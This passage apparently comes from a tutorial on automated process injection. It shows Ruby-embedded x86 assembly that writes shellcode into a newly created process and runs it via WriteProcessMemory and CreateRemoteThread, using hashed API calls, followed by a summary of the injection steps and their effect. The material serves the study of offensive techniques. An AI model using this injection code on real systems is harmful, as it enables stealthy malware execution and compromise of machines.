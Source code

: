 ```ruby
      ; pick up pointer to shellcode & keep it on stack
      jmp begin_of_payload
      begin_of_payload_return:  ; lpBuffer
      push eax                  ; lpBaseAddress
      push [edi]                ; hProcess
      push 0xE7BDD8C5           ; hash( "kernel32.dll", "WriteProcessMemory" )
      call ebp                  ; WriteProcessMemory(...)

      ; run the code (CreateRemoteThread())
      push ebx                  ; lpthreadID
      push ebx                  ; run immediately
      push ebx                  ; no parameter
      mov ecx,[esp-0x4]
      push ecx                  ; shellcode
      push ebx                  ; stacksize
      push ebx                  ; lpThreadAttributes
      push [edi]
      push 0x799AACC6           ; hash( "kernel32.dll", "CreateRemoteThread" )
      call ebp                  ; CreateRemoteThread(...);

      #{exitblock}              ; jmp to exitfunc or long sleep
```

It can be summarized that its function is mainly realized through assembly language. The basic process is as follows:

+ CreateProcessA creates a new process.
+ VirtualAllocEx applies for memory.
+ WriteProcessMemory writes shellcode.
+ CreateRemoteThread runs shellcode.

## Running Effect
After correctly configuring this parameter in the payload, the corresponding shellcode is generated. When the loader is used to load the generated shellcode, a new system process will be automatically created and the shellcode will be injected into the new process.

![](img\two_ways_of_automated_process_injection\2.webp)
